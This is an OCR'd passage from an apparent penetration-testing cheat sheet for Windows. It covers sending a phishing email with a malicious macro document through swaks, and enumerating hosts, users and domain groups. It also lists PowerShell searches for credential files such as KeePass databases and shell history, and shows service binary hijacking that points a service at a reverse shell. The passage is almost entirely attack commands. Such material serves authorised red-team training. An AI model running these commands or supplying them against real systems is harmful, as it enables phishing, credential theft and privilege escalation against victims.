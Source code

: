 ```vbscript
End Sub
```

##### Sending Phishing Email

```bash
$ swaks --header "Subject: <subject>" --body "<body>" -t to_who@email.com -f from_who@email.com --server x.x.x.x --attach malicious.docm
```

### Windows Enumeration

```powershell
PS C:\> systeminfo
PS C:\> hostname
PS C:\> whoami
PS C:\> net users # local users
PS C:\> net users /domain # all users on Domain
PS C:\> net localgroups
PS C:\> net user user1 # more info about user1
PS C:\> net group /domain # enumerate all groups on the domain
PS C:\> net group /domain "group1" # more info about group1
PS C:\> netsh firewall show state
PS C:\> netsh firewall show config
PS C:\> ipconfig /all
PS C:\> route print
PS C:\> arp -A # look for IPs that your victim is connected
```

### Credentials Hunting

```powershell
PS C:\> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\Users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\Users\user1\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction
PS C:\> tree /f C:\Users\ # look for interesting files, backups etc.
PS C:\> Get-History
PS C:\> (Get-PSReadlineOption).HistorySavePath
PS C:\> type <path>
```

### Exploitation

##### Binary Hijacking

```powershell
PS C:\> icalcs "path" # check for F (full permission)
PS C:\> sc qc <servicename>
PS C:\> sc config <service> <option>="<value>" # change the path to the reverseshell location
PS C:\> sc start <servicename>
```
